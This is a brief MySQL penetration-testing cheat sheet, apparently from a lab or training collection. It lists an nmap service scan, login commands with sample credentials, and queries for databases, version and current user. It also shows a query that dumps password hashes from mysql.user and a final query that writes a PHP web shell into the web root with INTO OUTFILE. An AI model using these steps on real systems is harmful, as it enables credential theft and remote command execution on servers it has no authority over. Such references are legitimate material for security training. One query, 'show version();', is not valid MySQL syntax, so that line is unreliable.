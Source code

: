 ### MySQL Script Scan

```bash
sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*
```

### Login as a `mysql` user

```mysql
mysql -h 172.19.0.3 -u username -p Password1! 
mysql --host=172.19.0.3 --user=username --password=Password1!
```

### Show all databases

```mysql
show databases;
```

### Selecting information

```mysql
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```

### Show version of `MySQL`

```mysql
show version();
```

### Show current user

```mysql
select system_user();
```

### Writing into an outfile

```mysql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```